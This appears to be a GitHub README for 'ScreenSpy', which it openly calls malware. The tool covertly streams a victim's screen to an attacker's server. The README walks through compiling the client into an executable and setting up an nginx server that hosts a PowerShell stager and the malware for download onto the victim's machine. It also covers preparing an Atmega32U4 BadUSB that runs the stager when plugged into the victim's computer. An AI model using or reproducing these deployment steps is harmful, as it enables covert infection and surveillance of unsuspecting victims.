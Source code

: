 ### Intro

We need three machine in order to run this attack:

- **Server** ->  This is our server machine that setup all the work and listens incoming connection from victim
- **Builder** -> This is our builder machine to compile our *client.py* to executable file. We need exact same operation system as victim use **windows** machine to compile that script to windows machine or use **linux** to compile that script for linux(x11) machines
- **Victim** ->  This is our Victim machine which we will infect and capture screen real time. 

ScreenSpy is a repository that contains followings:
   -   client.py - malware that connect to server to share its screen real time
   -   server.py - server waiting for incoming connection.
   -   screenshareStage.ino - arduino code to prepare stager BadUsb
   -   stager.ps1 - stager powershell script that badusb runs from url
   -   prepare.sh - prepares server.
   -   client.exe - compiler version of client.py 
   -   nginx.conf - nginx web server config

NOTE!: This program tested on Windows10, Linux(X11) and there no guarantee that will work for other OSs.

#### Compile python scrip to executable
In order to compile *client.py* script for linux(X11) or Windows:
```bash
git clone https://github.com/Cyb3rCr0wCC/ScreenSpy
cd ScreenSpy
pip3 install pyinstaller
pyinstaller ./client.py --onefile
```

After running above commands you will get folder named *dist*, this contian our executable.

Copy your compiled executable to your **Server** work folder where all that repo cloned.

``````bash
git clone https://github.com/Cyb3rCr0wCC/ScreenSpy
cd ScreenSpy
### Copy compiled client.py to there
``````

#### Prepare the Server

There are two options you can prepare your **Server** for this attack

Automated:

``````bash
bash prepare.sh	
``````

Manual (root):

``````bash
# Install required packages
apt install nginx python3 python3-venv python3-pil
# You dont need following three steps if you installed python3-pil via apt
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt

# Copy our stager.ps1 powershell script to our webroot that will served via nginx to install our client.exe or client malware into victims machine
cp stager.ps1 /var/www/html

# Copy compiled client.py to webroot 2>/dev/null means ignore file not exist error 
cp client.exe /var/www/html 2>/dev/null
cp client     /var/www/html 2>/dev/null

# Copy nginx.conf webserver config
cp nginx.conf /etc/nginx/conf.d/screenspy.conf

# Restart webserver and we will ready to go
systemctl restart nginx
``````



#### Prepare BadUsb

Last step is preparing our BadUsb that will do all the job when plugged into victim's computer. 

I used Arduino as a Ide to compile and upload *scrennshareStager.ino* code into our BadUsb.

I used Atmega32U4  as my BadUsb.

You can download arduino release from this: [arduino](https://www.arduino.cc/en/software)

